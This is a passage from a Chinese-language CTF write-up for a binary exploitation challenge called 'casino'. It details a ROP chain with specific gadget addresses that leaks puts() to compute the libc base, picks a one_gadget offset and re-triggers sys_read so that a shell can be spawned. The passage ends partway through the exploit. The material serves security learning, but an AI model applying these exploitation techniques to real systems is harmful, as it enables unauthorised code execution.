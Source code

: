 至此就可以得到puts()函数的真实地址了。此时全部的构造内容应为：

```
-----code段-----
ret
-----stack------
0x400dd1(pop rsi;pop r15;ret)
0x602018(rsi)
0x0(r15)
0x400aa5(and eax,1;pop rbp;retn)
0x602078(rbp)
0x400d5b(mov rsi,rax;syscall;retn)
```

##### 获取libc_base 

```
libc_base=libc_puts-puts_off
```

```
#python
elf = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
puts_off = elf.symbols['puts']
```

##### 拿到one_gadget

```
one_gadget ./libc-2.23.so 
libc_one_gadget=libc_base+one_gadget_addr
```

![gadget](H:\CTF-2018\201808\casino\gadget.PNG)

这里学习别人的代码中，他使用的是第二个:0x4526a

#### 修改程序流程获取shell

##### 重新执行sys_read

此时的程序控制流在我们自己构造的sys_write处，next_address还不知道在哪里，由于接下来我们需要执行execve()函数，因此需要将gadget地址写入到stack中。那么需要重新执行sys_read，使我们能够从stdin读取one_gadget地址到stack。

因此next_address应为0x400D50

![sysread](H:\CTF-2018\201808\casino\sysread.PNG)

```
-----code段-----
ret
-----stack------
0x400dd1(pop rsi;pop r15;ret)
0x602018(rsi)
0x0(r15)
0x400aa5(and eax,1;pop rbp;retn)
0x602078(rbp)
0x400d5b(mov rsi,rax;syscall;retn)
0x400D50(sys_read)
```
